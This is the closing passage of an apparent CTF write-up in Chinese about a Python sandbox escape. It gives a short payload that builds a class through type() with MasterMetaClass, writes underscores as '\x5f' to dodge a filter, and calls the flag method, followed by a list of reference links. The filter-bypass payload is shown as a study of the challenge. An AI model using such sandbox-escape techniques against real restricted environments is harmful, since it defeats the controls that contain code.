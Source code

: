 `#!python type("", (MasterMetaClass,), {"__init__":print})("",(),{}).IWantGETFLAGPlz(1)`

因为这时的下划线在引号中，所以可以使用 "\x5f" 来代替

??? success "payload"
    - add method `x`: `#!python e="\x5f"*2;self.d={e+"init"+e:print}`
    - add method `y`: `#!python self.m=type('',(MasterMetaClass,),self.d)`
    - add method `z`: `#!python self.m('',(),{}).IWantGETFLAGPlz(1)`
    - call `x`
    - call `y`
    - call `z`

## Reference
- [TokyoWesterns CTF 4th 2018 Writeup — Part 5](https://infosecwriteups.com/tokyowesterns-ctf-4th-2018-writeup-part-5-6d699f07f71c)
- [Documentation of ast](https://docs.python.org/3/library/ast.html)
- [一文看懂Python沙箱逃逸 - FreeBuf网络安全行业门户](https://www.freebuf.com/articles/system/203208.html)
- [https://blog.gztime.cc/posts/2021/83a30666/](https://blog.gztime.cc/posts/2021/83a30666/)